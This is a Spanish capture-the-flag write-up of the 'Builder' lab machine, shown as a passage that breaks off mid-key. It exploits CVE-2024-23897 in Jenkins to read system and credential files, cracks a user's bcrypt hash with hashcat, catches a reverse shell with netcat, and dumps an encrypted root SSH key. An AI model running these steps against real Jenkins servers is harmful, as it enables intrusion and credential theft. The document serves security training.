

# Resolución maquina builder

**Autor:** PepeMaquina  
**Fecha:** 23 de octubre de 2025  
**Dificultad:** Medio  
**Sistema Operativo:** Linux  
**Tags:** Jenkins, CVE, ssh.

---

## Imagen de la Máquina

*Imagen: builder.JPG*

## Reconocimiento Inicial

### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.10.11.10 -oG newtworked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p22,8080 10.10.11.10 -oN targeted
~~~
### Enumeración de Servicios
~~~ 
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
8080/tcp open  http    Jetty 10.0.18
|_http-server-header: Jetty(10.0.18)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Dashboard [Jenkins]
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~
Como se puede ver en la enumeración de servicios, solo presenta dos puertos abiertos, una de ssh y otra el 8080 donde corre jenkins, hay un par de cosas que se pueden hacer con jenkins pero normalmente se necesitan credenciales validas.
Viendo el contenido de la página, se puede ver que se tienen apartados para ver sin un inicio de sesion.

Se puede ver que hay dos usuarios, uno anonymous que seguramente sea yo y otro jennifer, posible usuario a anotar. Tambien se puede ver una versión que es la 2.441.
Inspeccionando mas se puede ver que existe una posible credencial para el usuario root pero no se tiene acceso a ella.

Normalmente se necesita tener acceso a un "job" o "script" para poder correr comandos dentro del sistema, pero no se tiene acceso a ninguna de ella.
Entonces, buscando algun CVE en internet se encontró una interesante.

### CVE-2024-23897
Se encontro un CVE-2024-23897, al parecer es una vulnerabilidad que implica un LFI, esto empleando jenkins-cli, pero se econtró un script en github que automatiza el proceso (https://github.com/h4x0r-dz/CVE-2024-23897/tree/main?tab=readme-ov-file), por lo que procede a descargar y correr para ver si funciona.
~~~bash
python3 CVE-2024-23897.py 10.10.11.10 8080 /etc/passwd
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin: No such agent "www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin" exists.
root:x:0:0:root:/root:/bin/bash: No such agent "root:x:0:0:root:/root:/bin/bash" exists.
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin: No such agent "mail:x:8:8:mail:/var/mail:/usr/sbin/nologin" exists.
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin: No such agent "backup:x:34:34:backup:/var/backups:/usr/sbin/nologin" exists.
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin: No such agent "_apt:x:42:65534::/nonexistent:/usr/sbin/nologin" exists.
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin: No such agent "nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin" exists.
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin: No such agent "lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin" exists.
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin: No such agent "uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin" exists.
bin:x:2:2:bin:/bin:/usr/sbin/nologin: No such agent "bin:x:2:2:bin:/bin:/usr/sbin/nologin" exists.
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin: No such agent "news:x:9:9:news:/var/spool/news:/usr/sbin/nologin" exists.
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin: No such agent "proxy:x:13:13:proxy:/bin:/usr/sbin/nologin" exists.
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin: No such agent "irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin" exists.
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin: No such agent "list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin" exists.
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash: No such agent "jenkins:x:1000:1000::/var/jenkins_home:/bin/bash" exists.
games:x:5:60:games:/usr/games:/usr/sbin/nologin: No such agent "games:x:5:60:games:/usr/games:/usr/sbin/nologin" exists.
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin: No such agent "man:x:6:12:man:/var/cache/man:/usr/sbin/nologin" exists.
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin: No such agent "daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin" exists.
sys:x:3:3:sys:/dev:/usr/sbin/nologin: No such agent "sys:x:3:3:sys:/dev:/usr/sbin/nologin" exists.
sync:x:4:65534:sync:/bin:/bin/sync: No such agent "sync:x:4:65534:sync:/bin:/bin/sync" exists.

ERROR: Error occurred while performing this command, see previous stderr output.
Error al intentar conectar el nodo: Command 'java -jar jenkins-cli.jar -s http://10.10.11.10:8080/ -http connect-node @/etc/passwd' returned non-zero exit status 5.
~~~
Al parecer funciona bien, pero que se puede hacer con esto, bueno lo mas facil es pensar en leer archivos donde se pueda encontrar credenciales.
Por experiencia previa trabajando con jenkins, se que existen archivos donde puede haber credenciales, entre ellas la config.xml, credentials.xml y archivos de usuarios.
Pero se necesita saber donde corre la aplicación, pero viendo el /etc/passwd que se encontro, se ve un usuario jenkins_home donde posiblemente sea la ruta de la aplicacion.
~~~bash
python3 CVE-2024-23897.py 10.10.11.10 8080 /var/jenkins_home/config.xml
  <primaryView>all</primaryView>: No such agent "  <primaryView>all</primaryView>" exists.
  <label></label>: No such agent "  <label></label>" exists.
  <clouds/>: No such agent "  <clouds/>" exists.
  <disabledAdministrativeMonitors/>: No such agent "  
......
<SNIP>
.....
<com.cloudbees.plugins.credentials.SystemCredentialsProvider plugin="credentials@1319.v7eb_51b_3a_c97b_">: No such agent "<com.cloudbees.plugins.credentials.SystemCredentialsProvider plugin="credentials@1319.v7eb_51b_3a_c97b_">" exists.
      <java.util.concurrent.CopyOnWriteArrayList>: No such agent "      <java.util.concurrent.CopyOnWriteArrayList>" exists.
            <privateKey>{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}</privateKey>: 
.....
<SNIP>
.....
ERROR: Error occurred while performing this command, see previous stderr output.
Error al intentar conectar el nodo: Command 'java -jar jenkins-cli.jar -s http://10.10.11.10:8080/ -http connect-node @/var/jenkins_home/credentials.xml' returned non-zero exit status 5.
~~~
Viendo el archivo credentials.xml se puede ver las credenciales del usuario root tal cual como vimos en la interfaz visual, pero esto se encuentra encriptado, por lo que se, para desencriptar esto se necesita o el archivo master.key o hudson.util.Secret, pero esto no es legible directamente porque no esta en formato ascci.
Entonces recordando que existe un usuario jennifer, se espera que exista un archivo users.xml, asi que buscando eso:
~~~bash
python3 CVE-2024-23897.py 10.10.11.10 8080 /var/jenkins_home/users/users.xml
<?xml version='1.1' encoding='UTF-8'?>: No such agent "<?xml version='1.1' encoding='UTF-8'?>" exists.
      <string>jennifer_12108429903186576833</string>: No such agent "      <string>jennifer_12108429903186576833</string>" exists.
  <idToDirectoryNameMap class="concurrent-hash-map">: No such agent "  <idToDirectoryNameMap class="concurrent-hash-map">" exists.
    <entry>: No such agent "    <entry>" exists.
      <string>jennifer</string>: No such agent "      <string>jennifer</string>" exists.
  <version>1</version>: No such agent "  <version>1</version>" exists.
</hudson.model.UserIdMapper>: No such agent "</hudson.model.UserIdMapper>" exists.
  </idToDirectoryNameMap>: No such agent "  </idToDirectoryNameMap>" exists.
<hudson.model.UserIdMapper>: No such agent "<hudson.model.UserIdMapper>" exists.
    </entry>: No such agent "    </entry>" exists.
~~~
Efectivamente existe, entonces cabe recordar que para cada usuario tambien existe su propio archivo de configuración config.xml, asi que se busca ello.
~~~bash
python3 CVE-2024-23897.py 10.10.11.10 8080 /var/jenkins_home/users/jennifer_12108429903186576833/config.xml
    <hudson.tasks.Mailer_-UserProperty plugin="mailer@463.vedf8358e006b_">: No such agent "    <hudson.tasks.Mailer_-UserProperty plugin="mailer@463.vedf8358e006b_">" exists.
    <hudson.search.UserSearchProperty>: No such agent "    <hudson.search.UserSearchProperty>" exists.
      <roles>: No such agent "      <roles>" exists.
    <jenkins.security.seed.UserSeedProperty>: No such agent "    <jenkins.security.seed.UserSeedProperty>" exists.
      </tokenStore>: No such agent "      </tokenStore>" exists.
    </hudson.search.UserSearchProperty>: No such agent "    </hudson.search.UserSearchProperty>" exists.
      <timeZoneName></timeZoneName>: No such agent "      <timeZoneName></timeZoneName>" exists.
  <properties>: No such agent "  <properties>" exists.
    <jenkins.security.LastGrantedAuthoritiesProperty>: No such agent "    <jenkins.security.LastGrantedAuthoritiesProperty>" exists.
      <flags/>: No such agent "      <flags/>" exists.
    <hudson.model.MyViewsProperty>: No such agent "    <hudson.model.MyViewsProperty>" exists.
</user>: No such agent "</user>" exists.
    </jenkins.security.ApiTokenProperty>: No such agent "    </jenkins.security.ApiTokenProperty>" exists.
      <views>: No such agent "      <views>" exists.
        <string>authenticated</string>: No such agent "        <string>authenticated</string>" exists.
    <org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty plugin="display-url-api@2.200.vb_9327d658781">: No such agent "    <org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty plugin="display-url-api@2.200.vb_9327d658781">" exists.
<user>: No such agent "<user>" exists.
          <name>all</name>: No such agent "          <name>all</name>" exists.
  <description></description>: No such agent "  <description></description>" exists.
      <emailAddress>jennifer@builder.htb</emailAddress>: No such agent "      <emailAddress>jennifer@builder.htb</emailAddress>" exists.
      <collapsed/>: No such agent "      <collapsed/>" exists.
    </jenkins.security.seed.UserSeedProperty>: No such agent "    </jenkins.security.seed.UserSeedProperty>" exists.
    </org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty>: No such agent "    </org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty>" exists.
    </hudson.model.MyViewsProperty>: No such agent "    </hudson.model.MyViewsProperty>" exists.
      <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash"/>: No such agent "      <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash"/>" exists.
          <filterQueue>false</filterQueue>: No such agent "          <filterQueue>false</filterQueue>" exists.
    <jenkins.security.ApiTokenProperty>: No such agent "    <jenkins.security.ApiTokenProperty>" exists.
      <primaryViewName></primaryViewName>: No such agent "      <primaryViewName></primaryViewName>" exists.
      </views>: No such agent "      </views>" exists.
    </hudson.model.TimeZoneProperty>: No such agent "    </hudson.model.TimeZoneProperty>" exists.
    <com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty plugin="credentials@1319.v7eb_51b_3a_c97b_">: No such agent "    <com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty plugin="credentials@1319.v7eb_51b_3a_c97b_">" exists.
    </hudson.model.PaneStatusProperties>: No such agent "    </hudson.model.PaneStatusProperties>" exists.
    </hudson.tasks.Mailer_-UserProperty>: No such agent "    </hudson.tasks.Mailer_-UserProperty>" exists.
        <tokenList/>: No such agent "        <tokenList/>" exists.
    <jenkins.console.ConsoleUrlProviderUserProperty/>: No such agent "    <jenkins.console.ConsoleUrlProviderUserProperty/>" exists.
        </hudson.model.AllView>: No such agent "        </hudson.model.AllView>" exists.
      <timestamp>1707318554385</timestamp>: No such agent "      <timestamp>1707318554385</timestamp>" exists.
          <owner class="hudson.model.MyViewsProperty" reference="../../.."/>: No such agent "          <owner class="hudson.model.MyViewsProperty" reference="../../.."/>" exists.
  </properties>: No such agent "  </properties>" exists.
    </jenkins.model.experimentalflags.UserExperimentalFlagsProperty>: No such agent "    </jenkins.model.experimentalflags.UserExperimentalFlagsProperty>" exists.
    </com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty>: No such agent "    </com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty>" exists.
    <hudson.security.HudsonPrivateSecurityRealm_-Details>: No such agent "    <hudson.security.HudsonPrivateSecurityRealm_-Details>" exists.
      <insensitiveSearch>true</insensitiveSearch>: No such agent "      <insensitiveSearch>true</insensitiveSearch>" exists.
          <properties class="hudson.model.View$PropertyList"/>: No such agent "          <properties class="hudson.model.View$PropertyList"/>" exists.
    <hudson.model.TimeZoneProperty>: No such agent "    <hudson.model.TimeZoneProperty>" exists.
        <hudson.model.AllView>: No such agent "        <hudson.model.AllView>" exists.
    </hudson.security.HudsonPrivateSecurityRealm_-Details>: No such agent "    </hudson.security.HudsonPrivateSecurityRealm_-Details>" exists.
      <providerId>default</providerId>: No such agent "      <providerId>default</providerId>" exists.
      </roles>: No such agent "      </roles>" exists.
    </jenkins.security.LastGrantedAuthoritiesProperty>: No such agent "    </jenkins.security.LastGrantedAuthoritiesProperty>" exists.
    <jenkins.model.experimentalflags.UserExperimentalFlagsProperty>: No such agent "    <jenkins.model.experimentalflags.UserExperimentalFlagsProperty>" exists.
    <hudson.model.PaneStatusProperties>: No such agent "    <hudson.model.PaneStatusProperties>" exists.
<?xml version='1.1' encoding='UTF-8'?>: No such agent "<?xml version='1.1' encoding='UTF-8'?>" exists.
  <fullName>jennifer</fullName>: No such agent "  <fullName>jennifer</fullName>" exists.
      <seed>6841d11dc1de101d</seed>: No such agent "      <seed>6841d11dc1de101d</seed>" exists.
  <id>jennifer</id>: No such agent "  <id>jennifer</id>" exists.
  <version>10</version>: No such agent "  <version>10</version>" exists.
      <tokenStore>: No such agent "      <tokenStore>" exists.
          <filterExecutors>false</filterExecutors>: No such agent "          <filterExecutors>false</filterExecutors>" exists.
    <io.jenkins.plugins.thememanager.ThemeUserProperty plugin="theme-manager@215.vc1ff18d67920"/>: No such agent "    <io.jenkins.plugins.thememanager.ThemeUserProperty plugin="theme-manager@215.vc1ff18d67920"/>" exists.
      <passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>: No such agent "      <passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>" exists.
~~~
En efecto tiene su archivo de configuración, pero si se ve con cuidado, se puede ver un hash, a modo de correr el riesgo se lo puede descifrar con hashcat.
~~~bash
hashcat -m 3200 hash_jen --user /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-AMD Ryzen 5 2500U with Radeon Vega Mobile Gfx, 1435/2934 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a:p<SNIP>s
~~~
Por suerte si se la pudo descifrar, con esto se tiene dos opciones, entrar a jenkins con la credencial obtenida o ver si se rehusa para ssh.
Primero entrando a jenkins se ve que entra correctamente.

Para mi comodidad, se puede generar una reverse shell de diferentes formas, la mas simple es usar un apartado de "scripts" o colocar una reverse pero el lenguaje es groovy.

Programo un escucha en mi maquina atacante y luego corro la reverse shell.

~~~bash
sudo nc -nlvp 4433                                                  
listening on [any] 4433 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.10] 32866
id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
~~~
Y claramente se tiene acceso al usuario jenkins.

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

### User Flag
Con acceso al servidor, ahora se puede buscar la user flag.
~~~bash
jenkins@0f52c222a4cc:~$ ls
config.xml                                   nodes
copy_reference_file.log                      plugins
credentials.xml                              queue.xml.bak
hudson.model.UpdateCenter.xml                secret.key
hudson.plugins.git.GitTool.xml               secret.key.not-so-secret
identity.key.enc                             secrets
jenkins.install.InstallUtil.lastExecVersion  updates
jenkins.install.UpgradeWizard.state          user.txt
jenkins.telemetry.Correlator.xml             userContent
jobs                                         users
nodeMonitors.xml                             war
jenkins@0f52c222a4cc:~$ cat user.txt
<Encuentre su propia user flag>
~~~

---

## Escalada de Privilegios
Revisando y enumerando el servidor, puedo ver que estoy dentro de un contenedor, por lo que no me viene bien saltar a root de este contenedor.
~~~bash
jenkins@0f52c222a4cc:~$ hostname -I
172.17.0.2
~~~
Pero recordando, se tenia un ssh para el usuario root en el archivo credentials.xml, asi que ahora se la podria descifrar ya que tambien se tiene acceso a "hudson.util.Secret" que en jenkins ayuda a descrifrar las credenciales.
~~~bash
jenkins@0f52c222a4cc:~$ cat credentials.xml 
<?xml version='1.1' encoding='UTF-8'?>
<com.cloudbees.plugins.credentials.SystemCredentialsProvider plugin="credentials@1319.v7eb_51b_3a_c97b_">
  <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash">
    <entry>
      <com.cloudbees.plugins.credentials.domains.Domain>
        <specifications/>
      </com.cloudbees.plugins.credentials.domains.Domain>
      <java.util.concurrent.CopyOnWriteArrayList>
        <com.cloudbees.jenkins.plugins.sshcredentials.impl.BasicSSHUserPrivateKey plugin="ssh-credentials@308.ve4497b_ccd8f4">
          <scope>GLOBAL</scope>
          <id>1</id>
          <description></description>
          <username>root</username>
          <usernameSecret>false</usernameSecret>
          <privateKeySource class="com.cloudbees.jenkins.plugins.sshcredentials.impl.BasicSSHUserPrivateKey$DirectEntryPrivateKeySource">
            <privateKey>{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